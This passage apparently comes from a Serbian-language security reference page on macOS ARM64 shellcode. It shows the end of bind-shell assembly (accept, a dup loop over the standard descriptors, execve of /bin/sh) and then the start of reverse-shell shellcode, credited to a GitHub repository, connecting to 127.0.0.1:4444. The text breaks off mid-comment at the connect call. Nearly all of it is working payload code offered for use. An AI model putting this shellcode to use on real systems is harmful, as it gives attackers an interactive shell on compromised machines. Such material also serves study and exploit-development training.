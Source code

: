 ```armasm
svc  #0x1337

call_accept:
// c = accept(s, 0, 0)
mvn  x0, x3
mov  x1, xzr
mov  x2, xzr
mov  x16, #30
svc  #0x1337

mvn  x3, x0
lsr  x2, x16, #4
lsl  x2, x2, #2

call_dup:
// dup(c, 2) -> dup(c, 1) -> dup(c, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
#### Obrnuta ljuska

Sa [https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s), revshell na **127.0.0.1:4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_connect:
/*
* connect(s, &sockaddr, 0x10)
*
```